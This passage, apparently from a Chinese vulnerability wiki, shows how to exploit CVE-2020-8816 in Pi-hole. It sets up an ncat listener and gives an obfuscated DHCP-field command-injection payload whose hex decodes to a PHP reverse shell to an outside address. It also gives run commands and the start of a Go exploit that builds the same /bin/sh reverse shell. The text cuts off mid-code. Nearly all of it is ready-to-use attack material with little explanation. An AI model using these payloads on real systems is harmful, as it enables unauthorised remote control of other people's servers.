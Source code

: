 在主机的命令行中输入：

    ncat -nlvp 2256

进入监听模式，等待其他机器的连接。

返回虚拟机，在浏览器中打开`http://192.168.1.107/admin`，登录，选择Setting-\>DHCP选项卡，输入payload：

    aaaaaaaaaaaa&&SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}&&B=${PWD#/???/???/}&&H=${B%???/?????}&&C=${PWD#/??}&&R=${C%/???/????/?????}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e28223139322e3136382e312e313035222c32323536293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&

返回主机，可以看到主机收到了连接，可以执行命令了：![3.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId31.png)

### poc

> CVE-2020-8816.go

`go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`

`./CVE-2020-8816 -host $LHOST -p $LPORT -pass admin -u http://www.0-sec.org/admin/`

![4.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId33.png)

![5.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId34.png)

![6.png](/Users/aresx/Documents/VulWiki/.resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId35.png)

    package main


    import (
        "flag"
        "log"
        "strings"
        "github.com/anaskhan96/soup"
        "encoding/hex"
        "github.com/levigross/grequests"
    )

    type Options struct {
        url, password, host, port string
       
    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
        payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
        payload = strings.Replace(payload, "HOST", HOST, 1)
        payload = strings.Replace(payload, "PORT", PORT, 1)
        return hex.EncodeToString([]byte(payload))
    }
